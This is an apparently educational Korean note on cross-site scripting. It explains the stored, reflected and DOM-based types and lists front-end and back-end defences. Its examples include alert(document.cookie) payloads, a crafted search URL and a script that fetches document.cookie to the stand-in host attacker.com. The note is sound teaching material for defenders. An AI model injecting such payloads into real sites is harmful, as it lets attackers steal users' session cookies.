



# XSS (Cross-Site Scripting)
XSS는 공격자가 웹 페이지에 악의적인 스크립트를 삽입하여, 이를 통해 사용자 정보를 탈취하거나 사용자에게 악성 행위를 유도하는 공격이다.

XSS는 주로 사용자 입력을 제대로 검증하지 않은 경우 발생한다. 공격자는 웹 페이지에 JavaScript와 같은 스크립트를 삽입하여, 다른 사용자에게 이를 실행시키거나 중요한 데이터를 유출하도록 만든다.

## XSS의 종류
### 1. 저장 XSS (Stored XSS)
악성 스크립트가 서버에 저장되어, 이후 웹 페이지를 방문하는 다른 사용자에게 전달되는 방식이다.




ex. HTML 문서에 아래 스크립트를 저장해놓으면, 사용자는 해당 브라우저에 방문할 때마다 쿠키 정보를 출력하는 경고창이 뜨는 것을 보게 된다. 
```html
<script>alert(document.cookie)</script>
```

document.cookie 가 노출됨 + 만약, 공격자의 서버로 쿠키 정보를 저장하는 악성 스크립트가 있다면 공격자의 서버로 쿠키 정보가 전송 될 수 있다.

```html
<script>
  fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>
```


### 2. 반사 XSS (Reflected XSS)
공격용 악성 URL을 만든 뒤, 사용자가 해당 URL을 클릭했을 때 정보를 획득하는 방법이다.
- 사용자가 URL을 클릭하면, 브라우저는 이 URL에 포함된 매개변수를 서버로 전송하고, 서버는 이를 처리한 뒤 클라이언트에 응답을 반환한다.




ex. 현재 예시 이미지에서 아래와 같이 조작된 url이 있는데, 사용자가 이를 클릭했을 때, 브라우저가 URL에 포함된 해당 변수들 (q, x, y) 을 서버로 전송하게 된다. 서버가 매개변수 내용을 검증하지 않고 해당 내용을 HTML 페이지에 렌더링하면 쿠키 정보가 노출되는 것이다.

```html
http://www.test.com/search?q=<script>alert(document.cookie)</script>&x=0&y=0
```

### 3. DOM 기반 XSS (DOM-based XSS)
저장 XSS 공격과 반사 XSS 공격이 서버의 취약점을 이용해 사용자 브라우저에 악성 스크립트가 포함된 응답 페이지를 전달하는 방식이었다면, DOM 기반 XSS는 공격은 서버와 관계없이 브라우저의 자바스크립트 처리 과정(DOM 조작)에서 발생한다.


예시
- 사용자가 공격자가 조작한 URL을 클릭할 때, 만약 fragment 뒤에 악성 코드가 들어오면 이를 `location.hash`로 처리
- 이후, 브라우저가 `location.hash`의 값을 받아서 DOM에 삽입하거나 처리하려고 시도
- 여기서 검증이 되지 않은 악성 코드가 DOM에 삽입 되고, <script> 태그로 실행된다면, 공격자의 의도대로 악성 스크립트가 실행되는 것이다.


#### + Fragment



프래그먼트 식별자는 오직 브라우저에서만 사용되기 때문에, URL을 HTTP 요청 메시지로 보낼 때, 프래그먼트를 제외한 주소만 전송된다. (JavaScript가 클라이언트에서 직접 URL 값을 읽고 처리, 해당 공격이 브라우저 내에서만 발생)


#### 공격 유형 별로 정리
| 공격 유형   | 작동 방식                          | 주로 발생하는 위치            |
|-------------|------------------------------------|---------------------------|
| 저장 XSS    | 악성 스크립트를 서버 DB에 저장     | 서버에서 처리 후 브라우저로 전송 |
| 반사 XSS    | URL에 악성 스크립트를 포함시켜 실행 | 서버에서 응답 생성 시 포함 |
| DOM XSS     | 클라이언트의 자바스크립트가 직접 실행 | 브라우저 내에서만 발생    |


## XSS 공격에 대해 Front 와 Back에서 할 수 있는 대처
### Front
- 공통적으로 Front 에서는 사용자 입력 검증과 DOM 조작 시 이스케이프 처리 등이 필요하다.
- 특히, DOM XSS 같이 브라우저 내에서만 실행되는 공격은, 클라이언트 측의 대처가 중요하다. 
  - 철저한 사용자 입력 검증 필요  (`location.hash`, `location.search` 등의 값을 사용할 때, 정규식을 활용하여 허용된 값만 처리하도록 검증, ex. 블랙리스트 & 화이트리스트 필터링)
  - DOM 조작 시 이스케이프 처리 필수 (HTML을 직접 삽입하지 말고, 안전한 방법(ex. `textContent`)으로 DOM 조작)


### Back
- XSS 공격은 공통적으로 쿠키를 탈취하려는 시도가 많기 때문에 `HttpOnly` 쿠키 설정이 필요하다.
  -  XSS를 통해 쿠키 정보가 노출되지 않도록 JavaScript의 쿠키 접근을 차단하려는 목적
- 저장 XSS나 반사 XSS 처럼 서버를 거치는 XSS 공격에 대처하는 것이 중요 (취약한 web server가 되지 않도록)
- 저장 XSS를 막는 법은 다음과 같다.
  - 웹 서버 방화벽(WAF) 등을 사용하여 악성 코드를 심으려는 시도를 원천적으로 차단
  - 출력 시 이스케이프 처리, 검증을 철저하게
  - Content Security Policy (CSP) 를 적용하여 외부 스크립트 및 인라인 스크립트의 실행 방지


- 이전에 저장 XSS가 취약한 서버에 악성 코드를 직접 심는 방식이었다면, 반사 XSS는 URL 요청에 악성 스크립트를 포함시키는 방식으로, 악성 요청에 대한 응답을 통해 정보를 갈취하는 방식이었다. 따라서, 저장 XSS 대처법과 함께 클라이언트에서 받은 사용자 입력을 추가 검증할 수 있다. (정규식 등을 사용)


***

references.
- [XSS and CSRF](https://gogomalibu.tistory.com/163)
- [weak points of Cookies](https://blog.naver.com/sparrowast/223156059828)